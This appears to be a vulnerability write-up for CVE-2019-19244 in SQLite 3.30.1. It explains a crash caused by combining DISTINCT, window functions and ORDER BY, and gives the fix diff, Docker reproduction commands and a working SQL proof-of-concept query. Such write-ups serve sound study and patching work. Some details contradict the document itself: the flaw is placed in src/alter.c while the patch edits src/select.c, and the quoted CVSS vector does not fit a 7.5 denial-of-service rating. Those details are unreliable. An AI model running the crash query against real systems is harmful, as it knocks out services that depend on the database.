


# CVE-2019-19244 CWE-None SQLite DoS

## Vulnerability Background
- **SQLite:** A lightweight, embedded relational database management system that does not require separate server processes or complex configurations. SQLite stores data directly on the file system, featuring zero configuration, ease of use, and suitability for small applications. It supports standard SQL statements, provides good data security, and is widely used in desktop and mobile app development due to its lightweight nature.

## Vulnerability Mechanism
SQLite version 3.30.1 fails to properly manage memory when processing queries containing `DISTINCT`, window functions (such as `sum(aa) OVER()`), and `ORDER BY` clauses. Especially when `DISTINCT` is used in combination with window functions and sorting, SQLite may fail to effectively handle query planning and temporary data structures, leading to memory access errors and triggering crashes.

## Vulnerability Location
In the src/alter.c file, line 6060 is used for optimizations when handling `SELECT DISTINCT` queries. It implements the logic for rewriting certain types of `DISTINCT` queries into `GROUP BY` queries.

When a window function exists, it affects the order and grouping of queries. If the `DISTINCT` flag is mistakenly cleared when a window function exists, it may cause SQLite to crash when executing queries, because window functions and `DISTINCT` may have complex interactions in certain queries, resulting in errors.

When using `DISTINCT` and window functions in subqueries, SQLite requires more complex logic to handle sorting and deduplication. If the window function and `DISTINCT` handle logical conflicts, it may cause SQLite to access invalid memory during execution, ultimately causing crashes.

```c
// src/alter.c file, line 6060
  if( (p->selFlags & (SF_Distinct|SF_Aggregate))==SF_Distinct 
   && sqlite3ExprListCompare(sSort.pOrderBy, pEList, -1)==0
  ){
    p->selFlags &= ~SF_Distinct;
    pGroupBy = p->pGroupBy = sqlite3ExprListDup(db, pEList, 0);
    /* Notice that even thought SF_Distinct has been cleared from p->selFlags,
    ** the sDistinct.isTnct is still set.  Hence, isTnct represents the
    ** original setting of the SF_Distinct flag, not the current setting */
    assert( sDistinct.isTnct );

#if SELECTTRACE_ENABLED
    if( sqlite3SelectTrace & 0x400 ){
      SELECTTRACE(0x400,pParse,p,("Transform DISTINCT into GROUP BY:\n"));
      sqlite3TreeViewSelect(0, p, 0);
    }
#endif
  }
```

## Remediation
By adding `&& p->pWin == 0`, the fixed code ensures that the `DISTINCT` flag is only cleared in queries when there is no window function. This judgment more clearly avoids potential conflicts caused by window functions.

After the fix, the `DISTINCT` flag was only cleared when confirming that no window function was involved in the query. This prevents crashes caused by the interaction between window functions and `DISTINCT`.

```diff
Index: src/select.c
==================================================================
--- src/select.c
+++ src/select.c
@@ -6062,10 +6062,11 @@
   ** written the query must use a temp-table for at least one of the ORDER 
   ** BY and DISTINCT, and an index or separate temp-table for the other.
   */
   if( (p->selFlags & (SF_Distinct|SF_Aggregate))==SF_Distinct 
    && sqlite3ExprListCompare(sSort.pOrderBy, pEList, -1)==0
+   && p->pWin==0
   ){
     p->selFlags &= ~SF_Distinct;
     pGroupBy = p->pGroupBy = sqlite3ExprListDup(db, pEList, 0);
     /* Notice that even thought SF_Distinct has been cleared from p->selFlags,
     ** the sDistinct.isTnct is still set.  Hence, isTnct represents the
```

## Affected Versions
SQLite = 3.30.1

## Environment Setup
Start the Docker environment with SQLite version 3.30.1, which enables ASAN memory checking at compile time

```txt
NIST:NVD   Base Score:7.5 HIGH   Vector:CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
```

```txt
cpe:2.3:a:sqlite:sqlite:3.30.1:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
Go to the container command line and run the PoC file. You will see the program trigger the assertion failed and exit.

```bash
docker exec -it sqlite-3.30.1 sqlite3 test_db ".read CVE-2019-19244-PoC.sql"
```



## PoC Analysis

```sql
CREATE TABLE t1(aa, bb);
INSERT INTO t1 VALUES(1, 2);
INSERT INTO t1 VALUES(5, 6);

CREATE TABLE t2(x);
INSERT INTO t2 VALUES(1);

SELECT (SELECT DISTINCT sum(aa) OVER() FROM t1 ORDER BY 1), x FROM t2 
ORDER BY 1;
```

`(SELECT DISTINCT sum(aa) OVER() FROM t1 ORDER BY 1)` subquery attempts to calculate the sum of `aa` columns in the `t1` table and uses window function `sum(aa) OVER()` to summarize the results. Specifically, `sum(aa)` is a window function that calculates the total of the entire table (without partitions or groups). `ORDER BY 1` is used to specify the sorting order, but in the context of the window function, this `ORDER BY` does not change the calculation because the window function itself has already been summarized within the entire table.

`SELECT (subquery), x FROM t2 ORDER BY 1;` external query selects the results of subqueries and `x` columns of the `t2` table. Since `t2` contains only one line (`x = 1`), the query results will return the values of the subquery and the values of the `x`.

In SQLite version 3.30.1, when window function `sum(aa) OVER()` is used together with `DISTINCT` and `ORDER BY`, it may cause the `sqlite3Select` function to crash while processing queries.

## References
[NVD - CVE-2019-19244](https://nvd.nist.gov/vuln/detail/CVE-2019-19244)

[SQLite: Check-in [bcdd66c169\]](https://sqlite.org/src/info/bcdd66c1691955c6)
